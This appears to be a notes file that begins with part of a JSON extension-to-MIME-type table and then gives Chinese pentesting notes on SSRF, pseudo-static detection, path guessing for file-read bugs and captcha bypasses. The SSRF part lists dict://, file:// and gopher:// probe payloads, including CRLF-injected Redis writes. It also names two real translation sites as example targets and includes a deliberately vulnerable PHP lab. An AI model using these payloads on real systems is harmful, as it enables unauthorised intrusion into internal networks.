	"kpxx": "application/vnd.ds-keypoint",
	"ksp": "application/vnd.kde.kspread",
	"ktr": "application/vnd.kahootz",
	"ktx": "image/ktx",
	"ktx2": "image/ktx2",
	"ktz": "application/vnd.kahootz",
	"kwd": "application/vnd.kde.kword",
	"kwt": "application/vnd.kde.kword",
	"lasxml": "application/vnd.las.las+xml",
	"latex": "application/x-latex",
	"lbd": "application/vnd.llamagraphics.life-balance.desktop",
	"lbe": "application/vnd.llamagraphics.life-balance.exchange+xml",
	"les": "application/vnd.hhe.lesson-player",
	"less": "text/less",
	"lgr": "application/lgr+xml",
	"lha": "application/x-lzh-compressed",
	"link66": "application/vnd.route66.link66+xml",
	"list": "text/plain",
	"list3820": "application/vnd.ibm.modcap",
	"listafp": "application/vnd.ibm.modcap",
	"litcoffee": "text/coffeescript",
	"lnk": "application/x-ms-shortcut",
	"log": "text/plain",
	"lostxml": "application/lost+xml",
	"lrf": "application/octet-stream",
	"lrm": "application/vnd.ms-lrm",
	"ltf": "application/vnd.frogans.ltf",
	"lua": "text/x-lua",
	"luac": "application/x-lua-bytecode",
	"lvp": "audio/vnd.lucent.voice",
	"lwp": "application/vnd.lotus-wordpro",
	"lzh": "application/x-lzh-compressed",
	"m13": "application/x-msmediaview",
	"m14": "application/x-msmediaview",
	"m1v": "video/mpeg",
	"m21": "application/mp21",
	"m2a": "audio/mpeg",
	"m2v": "video/mpeg",
	"m3a": "audio/mpeg",
	"m3u": "audio/x-mpegurl",
	"m3u8": "application/vnd.apple.mpegurl",
	"m4a": "audio/x-m4a",
	"m4p": "application/mp4",
	"m4s": "video/iso.segment",
	"m4u": "video/vnd.mpegurl",
	"m4v": "video/x-m4v",
	"ma": "application/mathematica",
	"mads": "application/mads+xml",
	"maei": "application/mmt-aei+xml",
	"mag": "application/vnd.ecowin.chart",
	"maker": "application/vnd.framemaker",
	"man": "text/troff",
	"manifest": "text/cache-manifest",
	"map": "application/json",
	"mar": "application/octet-stream",
	"markdown": "text/markdown",
	"mathml": "application/mathml+xml",
	"mb": "application/mathematica",
	"mbk": "application/vnd.mobius.mbk",
	"mbox": "application/mbox",
	"mc1": "application/vnd.medcalcdata",
	"mcd": "application/vnd.mcd",
	"mcurl": "text/vnd.curl.mcurl",
	"md": "text/markdown",
	"mdb": "application/x-msaccess",
	"mdi": "image/vnd.ms-modi",
	"mdx": "text/mdx",
	"me": "text/troff",
	"mesh": "model/mesh",
	"meta4": "application/metalink4+xml",
	"metalink": "application/metalink+xml",
	"mets": "application/mets+xml",
	"mfm": "application/vnd.mfmp",
	"mft": "application/rpki-manifest",
	"mgp": "application/vnd.osgeo.mapguide.package",
	"mgz": "application/vnd.proteus.magazine",
	"mid": "audio/midi",
	"midi": "audio/midi",
	"mie": "application/x-mie",
	"mif": "application/vnd.mif",
	"mime": "message/rfc822",
	"mj2": "video/mj2",
	"mjp2": "video/mj2",
	"mjs": "application/javascript",
	"mk3d": "video/x-matroska",
	"mka": "audio/x-matroska",
	"mkd": "text/x-markdown",
	"mks": "video/x-matroska",
	"mkv": "video/x-matroska",
	"mlp": "application/vnd.dolby.mlp",
	"mmd": "application/vnd.chipnuts.karaoke-mmd",
	"mmf": "application/vnd.smaf",
	"mml": "text/mathml",
	"mmr": "image/vnd.fujixerox.edmics-mmr",
	"mng": "video/x-mng",
	"mny": "application/x-msmoney",
	"mobi": "application/x-mobipocket-ebook",
	"mods": "application/mods+xml",
	"mov": "video/quicktime",
	"movie": "video/x-sgi-movie",
	"mp2": "audio/mpeg",
	"mp21": "application/mp21",
	"mp2a": "audio/mpeg",
	"mp3": "audio/mpeg",
	"mp4": "video/mp4",
	"mp4a": "audio/mp4",
	"mp4s": "application/mp4",
	"mp4v": "video/mp4",
	"mpc": "application/vnd.mophun.certificate",
	"mpd": "application/dash+xml",
	"mpe": "video/mpeg",
	"mpeg": "video/mpeg",
	"mpg": "video/mpeg",
	"mpg4": "video/mp4",
	"mpga": "audio/mpeg",
	"mpkg": "application/vnd.apple.installer+xml",
	"mpm": "application/vnd.blueice.multipass",
	"mpn": "application/vnd.mophun.application",
	"mpp": "application/vnd.ms-project",
	"mpt": "application/vnd.ms-project",
	"mpy": "application/vnd.ibm.minipay",
	"mqy": "application/vnd.mobius.mqy",
	"mrc": "application/marc",
	"mrcx": "application/marcxml+xml",
	"ms": "text/troff",
	"mscml": "application/mediaservercontrol+xml",
	"mseed": "application/vnd.fdsn.mseed",
	"mseq": "application/vnd.mseq",
	"msf": "application/vnd.epson.msf",
	"msg": "application/vnd.ms-outlook",
	"msh": "model/mesh",
	"msi": "application/x-msdownload",
	"msl": "application/vnd.mobius.msl",
	"msm": "application/octet-stream",
	"msp": "application/octet-stream",
	"msty": "application/vnd.muvee.style",
	"mtl": "model/mtl",
	"mts": "model/vnd.mts",
	"mus": "application/vnd.musician",
	"musd": "application/mmt-usd+xml",
	"musicxml": "application/vnd.recordare.musicxml+xml",
	"mvb": "application/x-msmediaview",
	"mvt": "application/vnd.mapbox-vector-tile",
	"mwf": "application/vnd.mfer",
	"mxf": "application/mxf",
	"mxl": "application/vnd.recordare.musicxml",
	"mxmf": "audio/mobile-xmf",
	"mxml": "application/xv+xml",
	"mxs": "application/vnd.triscape.mxs",
	"mxu": "video/vnd.mpegurl",
	"n-gage": "application/vnd.nokia.n-gage.symbian.install",
	"n3": "text/n3",
	"nb": "application/mathematica",
	"nbp": "application/vnd.wolfram.player",
	"nc": "application/x-netcdf",
	"ncx": "application/x-dtbncx+xml",
	"nfo": "text/x-nfo",
	"ngdat": "application/vnd.nokia.n-gage.data",
	"nitf": "application/vnd.nitf",
	"nlu": "application/vnd.neurolanguage.nlu",
	"nml": "application/vnd.enliven",
	"nnd": "application/vnd.noblenet-directory",
	"nns": "application/vnd.noblenet-sealer",
	"nnw": "application/vnd.noblenet-web",
	"npx": "image/vnd.net-fpx",
	"nq": "application/n-quads",
	"nsc": "application/x-conference",
	"nsf": "application/vnd.lotus-notes",
	"nt": "application/n-triples",
	"ntf": "application/vnd.nitf",
	"numbers": "application/x-iwork-numbers-sffnumbers",
	"nzb": "application/x-nzb",
	"oa2": "application/vnd.fujitsu.oasys2",
	"oa3": "application/vnd.fujitsu.oasys3",
	"oas": "application/vnd.fujitsu.oasys",
	"obd": "application/x-msbinder",
	"obgx": "application/vnd.openblox.game+xml",
	"obj": "model/obj",
	"oda": "application/oda",
	"odb": "application/vnd.oasis.opendocument.database",
	"odc": "application/vnd.oasis.opendocument.chart",
	"odf": "application/vnd.oasis.opendocument.formula",
	"odft": "application/vnd.oasis.opendocument.formula-template",
	"odg": "application/vnd.oasis.opendocument.graphics",
	"odi": "application/vnd.oasis.opendocument.image",
	"odm": "application/vnd.oasis.opendocument.text-master",
	"odp": "application/vnd.oasis.opendocument.presentation",
	"ods": "application/vnd.oasis.opendocument.spreadsheet",
	"odt": "application/vnd.oasis.opendocument.text",
	"oga": "audio/ogg",
	"ogex": "model/vnd.opengex",
	"ogg": "audio/ogg",
	"ogv": "video/ogg",
	"ogx": "application/ogg",
	"omdoc": "application/omdoc+xml",
	"onepkg": "application/onenote",
	"onetmp": "application/onenote",
	"onetoc": "application/onenote",
	"onetoc2": "application/onenote",
	"opf": "application/oebps-package+xml",
	"opml": "text/x-opml",
	"oprc": "application/vnd.palm",
	"opus": "audio/ogg",
	"org": "text/x-org",
	"osf": "application/vnd.yamaha.openscoreformat",
	"osfpvg": "application/vnd.yamaha.openscoreformat.osfpvg+xml",
	"osm": "application/vnd.openstreetmap.data+xml",
	"otc": "application/vnd.oasis.opendocument.chart-template",
	"otf": "font/otf",
	"otg": "application/vnd.oasis.opendocument.graphics-template",
	"oth": "application/vnd.oasis.opendocument.text-web",
	"oti": "application/vnd.oasis.opendocument.image-template",
	"otp": "application/vnd.oasis.opendocument.presentation-template",
	"ots": "application/vnd.oasis.opendocument.spreadsheet-template",
	"ott": "application/vnd.oasis.opendocument.text-template",
	"ova": "application/x-virtualbox-ova",
	"ovf": "application/x-virtualbox-ovf",
	"owl": "application/rdf+xml",
	"oxps": "application/oxps",
	"oxt": "application/vnd.openofficeorg.extension",
	"p": "text/x-pascal",
	"p10": "application/pkcs10",
	"p12": "application/x-pkcs12",
	"p7b": "application/x-pkcs7-certificates",
	"p7c": "application/pkcs7-mime",
	"p7m": "application/pkcs7-mime",
	"p7r": "application/x-pkcs7-certreqresp",
	"p7s": "application/pkcs7-signature",
	"p8": "application/pkcs8",
	"pac": "application/x-ns-proxy-autoconfig",
	"pages": "application/x-iwork-pages-sffpages",
	"pas": "text/x-pascal",
	"paw": "application/vnd.pawaafile",
	"pbd": "application/vnd.powerbuilder6",
	"pbm": "image/x-portable-bitmap",
	"pcap": "application/vnd.tcpdump.pcap",
	"pcf": "application/x-font-pcf",
	"pcl": "application/vnd.hp-pcl",
	"pclxl": "application/vnd.hp-pclxl",
	"pct": "image/x-pict",
	"pcurl": "application/vnd.curl.pcurl",
	"pcx": "image/x-pcx",
	"pdb": "application/x-pilot",
	"pde": "text/x-processing",
	"pdf": "application/pdf",
	"pem": "application/x-x509-ca-cert",
	"pfa": "application/x-font-type1",
	"pfb": "application/x-font-type1",
	"pfm": "application/x-font-type1",
	"pfr": "application/font-tdpfr",
	"pfx": "application/x-pkcs12",
	"pgm": "image/x-portable-graymap",
	"pgn": "application/x-chess-pgn",
	"pgp": "application/pgp-encrypted",
	"php": "application/x-httpd-php",
	"pic": "image/x-pict",
	"pkg": "application/octet-stream",
	"pki": "application/pkixcmp",
	"pkipath": "application/pkix-pkipath",
	"pkpass": "application/vnd.apple.pkpass",
	"pl": "application/x-perl",
	"plb": "application/vnd.3gpp.pic-bw-large",
	"plc": "application/vnd.mobius.plc",
	"plf": "application/vnd.pocketlearn",
	"pls": "application/pls+xml",
	"pm": "application/x-perl",
	"pml": "application/vnd.ctc-posml",
	"png": "image/png",
	"pnm": "image/x-portable-anymap",
	"portpkg": "application/vnd.macports.portpkg",
	"pot": "application/vnd.ms-powerpoint",
	"potm": "application/vnd.ms-powerpoint.template.macroenabled.12",
	"potx": "application/vnd.openxmlformats-officedocument.presentationml.template",
	"ppam": "application/vnd.ms-powerpoint.addin.macroenabled.12",
	"ppd": "application/vnd.cups-ppd",
	"ppm": "image/x-portable-pixmap",
	"pps": "application/vnd.ms-powerpoint",
	"ppsm": "application/vnd.ms-powerpoint.slideshow.macroenabled.12",
	"ppsx": "application/vnd.openxmlformats-officedocument.presentationml.slideshow",
	"ppt": "application/vnd.ms-powerpoint",
	"pptm": "application/vnd.ms-powerpoint.presentation.macroenabled.12",
	"pptx": "application/vnd.openxmlformats-officedocument.presentationml.presentation",
	"pqa": "application/vnd.palm",
	"prc": "application/x-pilot",
	"pre": "application/vnd.lotus-freelance",
	"prf": "application/pics-rules",
	"provx": "application/provenance+xml",
	"ps": "application/postscript",
	"psb": "application/vnd.3gpp.pic-bw-small",
	"psd": "image/vnd.adobe.photoshop",
	"psf": "application/x-font-linux-psf",
	"pskcxml": "application/pskc+xml",
	"pti": "image/prs.pti",
	"ptid": "application/vnd.pvi.ptid1",
	"pub": "application/x-mspublisher",
	"pvb": "application/vnd.3gpp.pic-bw-var",
	"pwn": "application/vnd.3m.post-it-notes",
	"pya": "audio/vnd.ms-playready.media.pya",
	"pyv": "video/vnd.ms-playready.media.pyv",
	"qam": "application/vnd.epson.quickanime",
	"qbo": "application/vnd.intu.qbo",
	"qfx": "application/vnd.intu.qfx",
	"qps": "application/vnd.publishare-delta-tree",
	"qt": "video/quicktime",
	"qwd": "application/vnd.quark.quarkxpress",
	"qwt": "application/vnd.quark.quarkxpress",
	"qxb": "application/vnd.quark.quarkxpress",
	"qxd": "application/vnd.quark.quarkxpress",
	"qxl": "application/vnd.quark.quarkxpress",
	"qxt": "application/vnd.quark.quarkxpress",
	"ra": "audio/x-realaudio",
	"ram": "audio/x-pn-realaudio",
	"raml": "application/raml+yaml",
	"rapd": "application/route-apd+xml",
	"rar": "application/x-rar-compressed",
	"ras": "image/x-cmu-raster",
	"rcprofile": "application/vnd.ipunplugged.rcprofile",
	"rdf": "application/rdf+xml",
	"rdz": "application/vnd.data-vision.rdz",
	"relo": "application/p2p-overlay+xml",
	"rep": "application/vnd.businessobjects",
	"res": "application/x-dtbresource+xml",
	"rgb": "image/x-rgb",
	"rif": "application/reginfo+xml",
	"rip": "audio/vnd.rip",
	"ris": "application/x-research-info-systems",
	"rl": "application/resource-lists+xml",
	"rlc": "image/vnd.fujixerox.edmics-rlc",
	"rld": "application/resource-lists-diff+xml",
	"rm": "application/vnd.rn-realmedia",
	"rmi": "audio/midi",
	"rmp": "audio/x-pn-realaudio-plugin",
	"rms": "application/vnd.jcp.javame.midlet-rms",
	"rmvb": "application/vnd.rn-realmedia-vbr",
	"rnc": "application/relax-ng-compact-syntax",
	"rng": "application/xml",
	"roa": "application/rpki-roa",
	"roff": "text/troff",
	"rp9": "application/vnd.cloanto.rp9",
	"rpm": "application/x-redhat-package-manager",
	"rpss": "application/vnd.nokia.radio-presets",
	"rpst": "application/vnd.nokia.radio-preset",
	"rq": "application/sparql-query",
	"rs": "application/rls-services+xml",
	"rsat": "application/atsc-rsat+xml",
	"rsd": "application/rsd+xml",
	"rsheet": "application/urc-ressheet+xml",
	"rss": "application/rss+xml",
	"rtf": "text/rtf",
	"rtx": "text/richtext",
	"run": "application/x-makeself",
	"rusd": "application/route-usd+xml",
	"s": "text/x-asm",
	"s3m": "audio/s3m",
	"saf": "application/vnd.yamaha.smaf-audio",
	"sass": "text/x-sass",
	"sbml": "application/sbml+xml",
	"sc": "application/vnd.ibm.secure-container",
	"scd": "application/x-msschedule",
	"scm": "application/vnd.lotus-screencam",
	"scq": "application/scvp-cv-request",
	"scs": "application/scvp-cv-response",
	"scss": "text/x-scss",
	"scurl": "text/vnd.curl.scurl",
	"sda": "application/vnd.stardivision.draw",
	"sdc": "application/vnd.stardivision.calc",
	"sdd": "application/vnd.stardivision.impress",
	"sdkd": "application/vnd.solent.sdkm+xml",
	"sdkm": "application/vnd.solent.sdkm+xml",
	"sdp": "application/sdp",
	"sdw": "application/vnd.stardivision.writer",
	"sea": "application/x-sea",
	"see": "application/vnd.seemail",
	"seed": "application/vnd.fdsn.seed",
	"sema": "application/vnd.sema",
	"semd": "application/vnd.semd",
	"semf": "application/vnd.semf",
	"senmlx": "application/senml+xml",
	"sensmlx": "application/sensml+xml",
	"ser": "application/java-serialized-object",
	"setpay": "application/set-payment-initiation",
	"setreg": "application/set-registration-initiation",
	"sfd-hdstx": "application/vnd.hydrostatix.sof-data",
	"sfs": "application/vnd.spotfire.sfs",
	"sfv": "text/x-sfv",
	"sgi": "image/sgi",
	"sgl": "application/vnd.stardivision.writer-global",
	"sgm": "text/sgml",
	"sgml": "text/sgml",
	"sh": "application/x-sh",
	"shar": "application/x-shar",
	"shex": "text/shex",
	"shf": "application/shf+xml",
	"shtml": "text/html",
	"sid": "image/x-mrsid-image",
	"sieve": "application/sieve",
	"sig": "application/pgp-signature",
	"sil": "audio/silk",
	"silo": "model/mesh",
	"sis": "application/vnd.symbian.install",
	"sisx": "application/vnd.symbian.install",
	"sit": "application/x-stuffit",
	"sitx": "application/x-stuffitx",
	"siv": "application/sieve",
	"skd": "application/vnd.koan",
	"skm": "application/vnd.koan",
	"skp": "application/vnd.koan",
	"skt": "application/vnd.koan",
	"sldm": "application/vnd.ms-powerpoint.slide.macroenabled.12",
	"sldx": "application/vnd.openxmlformats-officedocument.presentationml.slide",
	"slim": "text/slim",
	"slm": "text/slim",
	"sls": "application/route-s-tsid+xml",
	"slt": "application/vnd.epson.salt",
	"sm": "application/vnd.stepmania.stepchart",
	"smf": "application/vnd.stardivision.math",
	"smi": "application/smil+xml",
	"smil": "application/smil+xml",
	"smv": "video/x-smv",
	"smzip": "application/vnd.stepmania.package",
	"snd": "audio/basic",
	"snf": "application/x-font-snf",
	"so": "application/octet-stream",
	"spc": "application/x-pkcs7-certificates",
	"spdx": "text/spdx",
	"spf": "application/vnd.yamaha.smaf-phrase",
	"spl": "application/x-futuresplash",
	"spot": "text/vnd.in3d.spot",
	"spp": "application/scvp-vp-response",
	"spq": "application/scvp-vp-request",
	"spx": "audio/ogg",
	"sql": "application/x-sql",
	"src": "application/x-wais-source",
	"srt": "application/x-subrip",
	"sru": "application/sru+xml",
	"srx": "application/sparql-results+xml",
	"ssdl": "application/ssdl+xml",
	"sse": "application/vnd.kodak-descriptor",
	"ssf": "application/vnd.epson.ssf",
	"ssml": "application/ssml+xml",
	"st": "application/vnd.sailingtracker.track",
	"stc": "application/vnd.sun.xml.calc.template",
	"std": "application/vnd.sun.xml.draw.template",
	"stf": "application/vnd.wt.stf",
	"sti": "application/vnd.sun.xml.impress.template",
	"stk": "application/hyperstudio",
	"stl": "model/stl",
	"stpx": "model/step+xml",
	"stpxz": "model/step-xml+zip",
	"stpz": "model/step+zip",
	"str": "application/vnd.pg.format",
	"stw": "application/vnd.sun.xml.writer.template",
	"styl": "text/stylus",
	"stylus": "text/stylus",
	"sub": "text/vnd.dvb.subtitle",
	"sus": "application/vnd.sus-calendar",
	"susp": "application/vnd.sus-calendar",
	"sv4cpio": "application/x-sv4cpio",
	"sv4crc": "application/x-sv4crc",
	"svc": "application/vnd.dvb.service",
	"svd": "application/vnd.svd",
	"svg": "image/svg+xml",
	"svgz": "image/svg+xml",
	"swa": "application/x-director",
	"swf": "application/x-shockwave-flash",
	"swi": "application/vnd.aristanetworks.swi",
	"swidtag": "application/swid+xml",
	"sxc": "application/vnd.sun.xml.calc",
	"sxd": "application/vnd.sun.xml.draw",
	"sxg": "application/vnd.sun.xml.writer.global",
	"sxi": "application/vnd.sun.xml.impress",
	"sxm": "application/vnd.sun.xml.math",
	"sxw": "application/vnd.sun.xml.writer",
	"t": "text/troff",
	"t3": "application/x-t3vm-image",
	"t38": "image/t38",
	"taglet": "application/vnd.mynfc",
	"tao": "application/vnd.tao.intent-module-archive",
	"tap": "image/vnd.tencent.tap",
	"tar": "application/x-tar",
	"tcap": "application/vnd.3gpp2.tcap",
	"tcl": "application/x-tcl",
	"td": "application/urc-targetdesc+xml",
	"teacher": "application/vnd.smart.teacher",
	"tei": "application/tei+xml",
	"teicorpus": "application/tei+xml",
	"tex": "application/x-tex",
	"texi": "application/x-texinfo",
	"texinfo": "application/x-texinfo",
	"text": "text/plain",
	"tfi": "application/thraud+xml",
	"tfm": "application/x-tex-tfm",
	"tfx": "image/tiff-fx",
	"tga": "image/x-tga",
	"thmx": "application/vnd.ms-officetheme",
	"tif": "image/tiff",
	"tiff": "image/tiff",
	"tk": "application/x-tcl",
	"tmo": "application/vnd.tmobile-livetv",
	"toml": "application/toml",
	"torrent": "application/x-bittorrent",
	"tpl": "application/vnd.groove-tool-template",
	"tpt": "application/vnd.trid.tpt",
	"tr": "text/troff",
	"tra": "application/vnd.trueapp",
	"trig": "application/trig",
	"trm": "application/x-msterminal",
	"ts": "video/mp2t",
	"tsd": "application/timestamped-data",
	"tsv": "text/tab-separated-values",
	"ttc": "font/collection",
	"ttf": "font/ttf",
	"ttl": "text/turtle",
	"ttml": "application/ttml+xml",
	"twd": "application/vnd.simtech-mindmapper",
	"twds": "application/vnd.simtech-mindmapper",
	"txd": "application/vnd.genomatix.tuxedo",
	"txf": "application/vnd.mobius.txf",
	"txt": "text/plain",
	"u32": "application/x-authorware-bin",
	"u8dsn": "message/global-delivery-status",
	"u8hdr": "message/global-headers",
	"u8mdn": "message/global-disposition-notification",
	"u8msg": "message/global",
	"ubj": "application/ubjson",
	"udeb": "application/x-debian-package",
	"ufd": "application/vnd.ufdl",
	"ufdl": "application/vnd.ufdl",
	"ulx": "application/x-glulx",
	"umj": "application/vnd.umajin",
	"unityweb": "application/vnd.unity",
	"uoml": "application/vnd.uoml+xml",
	"uri": "text/uri-list",
	"uris": "text/uri-list",
	"urls": "text/uri-list",
	"usdz": "model/vnd.usdz+zip",
	"ustar": "application/x-ustar",
	"utz": "application/vnd.uiq.theme",
	"uu": "text/x-uuencode",
	"uva": "audio/vnd.dece.audio",
	"uvd": "application/vnd.dece.data",
	"uvf": "application/vnd.dece.data",
	"uvg": "image/vnd.dece.graphic",
	"uvh": "video/vnd.dece.hd",
	"uvi": "image/vnd.dece.graphic",
	"uvm": "video/vnd.dece.mobile",
	"uvp": "video/vnd.dece.pd",
	"uvs": "video/vnd.dece.sd",
	"uvt": "application/vnd.dece.ttml+xml",
	"uvu": "video/vnd.uvvu.mp4",
	"uvv": "video/vnd.dece.video",
	"uvva": "audio/vnd.dece.audio",
	"uvvd": "application/vnd.dece.data",
	"uvvf": "application/vnd.dece.data",
	"uvvg": "image/vnd.dece.graphic",
	"uvvh": "video/vnd.dece.hd",
	"uvvi": "image/vnd.dece.graphic",
	"uvvm": "video/vnd.dece.mobile",
	"uvvp": "video/vnd.dece.pd",
	"uvvs": "video/vnd.dece.sd",
	"uvvt": "application/vnd.dece.ttml+xml",
	"uvvu": "video/vnd.uvvu.mp4",
	"uvvv": "video/vnd.dece.video",
	"uvvx": "application/vnd.dece.unspecified",
	"uvvz": "application/vnd.dece.zip",
	"uvx": "application/vnd.dece.unspecified",
	"uvz": "application/vnd.dece.zip",
	"vbox": "application/x-virtualbox-vbox",
	"vbox-extpack": "application/x-virtualbox-vbox-extpack",
	"vcard": "text/vcard",
	"vcd": "application/x-cdlink",
	"vcf": "text/x-vcard",
	"vcg": "application/vnd.groove-vcard",
	"vcs": "text/x-vcalendar",
	"vcx": "application/vnd.vcx",
	"vdi": "application/x-virtualbox-vdi",
	"vds": "model/vnd.sap.vds",
	"vhd": "application/x-virtualbox-vhd",
	"vis": "application/vnd.visionary",
	"viv": "video/vnd.vivo",
	"vmdk": "application/x-virtualbox-vmdk",
	"vob": "video/x-ms-vob",
	"vor": "application/vnd.stardivision.writer",
	"vox": "application/x-authorware-bin",
	"vrml": "model/vrml",
	"vsd": "application/vnd.visio",
	"vsf": "application/vnd.vsf",
	"vss": "application/vnd.visio",
	"vst": "application/vnd.visio",
	"vsw": "application/vnd.visio",
	"vtf": "image/vnd.valve.source.texture",
	"vtt": "text/vtt",
	"vtu": "model/vnd.vtu",
	"vxml": "application/voicexml+xml",
	"w3d": "application/x-director",
	"wad": "application/x-doom",
	"wadl": "application/vnd.sun.wadl+xml",
	"war": "application/java-archive",
	"wasm": "application/wasm",
	"wav": "audio/x-wav",
	"wax": "audio/x-ms-wax",
	"wbmp": "image/vnd.wap.wbmp",
	"wbs": "application/vnd.criticaltools.wbs+xml",
	"wbxml": "application/vnd.wap.wbxml",
	"wcm": "application/vnd.ms-works",
	"wdb": "application/vnd.ms-works",
	"wdp": "image/vnd.ms-photo",
	"weba": "audio/webm",
	"webapp": "application/x-web-app-manifest+json",
	"webm": "video/webm",
	"webmanifest": "application/manifest+json",
	"webp": "image/webp",
	"wg": "application/vnd.pmi.widget",
	"wgt": "application/widget",
	"wks": "application/vnd.ms-works",
	"wm": "video/x-ms-wm",
	"wma": "audio/x-ms-wma",
	"wmd": "application/x-ms-wmd",
	"wmf": "image/wmf",
	"wml": "text/vnd.wap.wml",
	"wmlc": "application/vnd.wap.wmlc",
	"wmls": "text/vnd.wap.wmlscript",
	"wmlsc": "application/vnd.wap.wmlscriptc",
	"wmv": "video/x-ms-wmv",
	"wmx": "video/x-ms-wmx",
	"wmz": "application/x-msmetafile",
	"woff": "font/woff",
	"woff2": "font/woff2",
	"wpd": "application/vnd.wordperfect",
	"wpl": "application/vnd.ms-wpl",
	"wps": "application/vnd.ms-works",
	"wqd": "application/vnd.wqd",
	"wri": "application/x-mswrite",
	"wrl": "model/vrml",
	"wsc": "message/vnd.wfa.wsc",
	"wsdl": "application/wsdl+xml",
	"wspolicy": "application/wspolicy+xml",
	"wtb": "application/vnd.webturbo",
	"wvx": "video/x-ms-wvx",
	"x32": "application/x-authorware-bin",
	"x3d": "model/x3d+xml",
	"x3db": "model/x3d+fastinfoset",
	"x3dbz": "model/x3d+binary",
	"x3dv": "model/x3d-vrml",
	"x3dvz": "model/x3d+vrml",
	"x3dz": "model/x3d+xml",
	"x_b": "model/vnd.parasolid.transmit.binary",
	"x_t": "model/vnd.parasolid.transmit.text",
	"xaml": "application/xaml+xml",
	"xap": "application/x-silverlight-app",
	"xar": "application/vnd.xara",
	"xav": "application/xcap-att+xml",
	"xbap": "application/x-ms-xbap",
	"xbd": "application/vnd.fujixerox.docuworks.binder",
	"xbm": "image/x-xbitmap",
	"xca": "application/xcap-caps+xml",
	"xcs": "application/calendar+xml",
	"xdf": "application/xcap-diff+xml",
	"xdm": "application/vnd.syncml.dm+xml",
	"xdp": "application/vnd.adobe.xdp+xml",
	"xdssc": "application/dssc+xml",
	"xdw": "application/vnd.fujixerox.docuworks",
	"xel": "application/xcap-el+xml",
	"xenc": "application/xenc+xml",
	"xer": "application/patch-ops-error+xml",
	"xfdf": "application/vnd.adobe.xfdf",
	"xfdl": "application/vnd.xfdl",
	"xht": "application/xhtml+xml",
	"xhtml": "application/xhtml+xml",
	"xhvml": "application/xv+xml",
	"xif": "image/vnd.xiff",
	"xla": "application/vnd.ms-excel",
	"xlam": "application/vnd.ms-excel.addin.macroenabled.12",
	"xlc": "application/vnd.ms-excel",
	"xlf": "application/xliff+xml",
	"xlm": "application/vnd.ms-excel",
	"xls": "application/vnd.ms-excel",
	"xlsb": "application/vnd.ms-excel.sheet.binary.macroenabled.12",
	"xlsm": "application/vnd.ms-excel.sheet.macroenabled.12",
	"xlsx": "application/vnd.openxmlformats-officedocument.spreadsheetml.sheet",
	"xlt": "application/vnd.ms-excel",
	"xltm": "application/vnd.ms-excel.template.macroenabled.12",
	"xltx": "application/vnd.openxmlformats-officedocument.spreadsheetml.template",
	"xlw": "application/vnd.ms-excel",
	"xm": "audio/xm",
	"xml": "text/xml",
	"xns": "application/xcap-ns+xml",
	"xo": "application/vnd.olpc-sugar",
	"xop": "application/xop+xml",
	"xpi": "application/x-xpinstall",
	"xpl": "application/xproc+xml",
	"xpm": "image/x-xpixmap",
	"xpr": "application/vnd.is-xpr",
	"xps": "application/vnd.ms-xpsdocument",
	"xpw": "application/vnd.intercon.formnet",
	"xpx": "application/vnd.intercon.formnet",
	"xsd": "application/xml",
	"xsl": "application/xslt+xml",
	"xslt": "application/xslt+xml",
	"xsm": "application/vnd.syncml+xml",
	"xspf": "application/xspf+xml",
	"xul": "application/vnd.mozilla.xul+xml",
	"xvm": "application/xv+xml",
	"xvml": "application/xv+xml",
	"xwd": "image/x-xwindowdump",
	"xyz": "chemical/x-xyz",
	"xz": "application/x-xz",
	"yaml": "text/yaml",
	"yang": "application/yang",
	"yin": "application/yin+xml",
	"yml": "text/yaml",
	"ymp": "text/x-suse-ymp",
	"z1": "application/x-zmachine",
	"z2": "application/x-zmachine",
	"z3": "application/x-zmachine",
	"z4": "application/x-zmachine",
	"z5": "application/x-zmachine",
	"z6": "application/x-zmachine",
	"z7": "application/x-zmachine",
	"z8": "application/x-zmachine",
	"zaz": "application/vnd.zzazz.deck+xml",
	"zip": "application/zip",
	"zir": "application/vnd.zul",
	"zirz": "application/vnd.zul",
	"zmm": "application/vnd.handheld-entertainment+xml"
}
```

# ssrf服务端请求伪造

## 简介
不同于csrf客户端请求伪造，ssrf（server side request forgery）
服务端请求伪造是利用目标服务器发起请求，可用于攻击跳板、内网探测

## 出现场景

可以自定义任意url的地方，如在线网页翻译、在线分享等等
示例站点：
- [yeekit网页翻译](http://web.yeekit.com/yeekit_translate_url/content.html)
- [有道翻译](http://fanyi.youdao.com)

如果抓包发现有存放url的参数，或者填写`action=refleashCode.php`之类的参数，就有可能存在ssrf漏洞

## 利用

### 内网地址总共有：
- 192.168.0.0/16
- 10.0.0.0/8
- 172.16.0.0/16

### 常用协议（最好都试一遍）：

- 探测网站`http://127.0.0.1:8080`
- 探测部分内网（服务/网站）是否存在`dict://127.0.0.1:3306`
- 文件协议`file://C:/xxx/xxx`
- 直接使用tcp`gopher://127.0.0.1:6379/  tcp包  `注意手动添加%0d%0a回车换行(常用于redis未授权访问写入文件)

利用上面总结的特点，跑包～


## 靶场（php）

```php
<?php
$url = $_GET['url'];
$ch = curl_init();
curl_setopt($ch,CURLOPT_URL,$url);
curl_exec($ch);
curl_close($ch);
```

监听80端口
`php -S 0.0.0.0:80 ./`

浏览器访问`http://127.0.0.1:80?url=dict://192.168.x.x:3306`


# 伪静态判断

F12 console执行`document.lastModified`查看文档最后一次修改时间

静态文件修改时间一般情况下是固定不变的， 而动态网站获取的页面都是服务端实时渲染的（排除使用缓存的情况）

# 文件读取漏洞路径获取思路

1. 强猜
2. 传特殊参数让其报错
3. 从报错页面找到泄露的路径
4. .DS_Store遍历工具

# 验证码绕过的几种情况

- 验证码只在js做验证（抓包改包测试）
- 验证码存在，但是并不验证，随意值都可通过验证（别觉得不存在）
- 验证码接口不止返回了图片，还返回了验证码的值（抓包查看）
- 验证码可复用
- 验证码由前端控制失效（抓包查看前端是否有请求验证码失效接口）


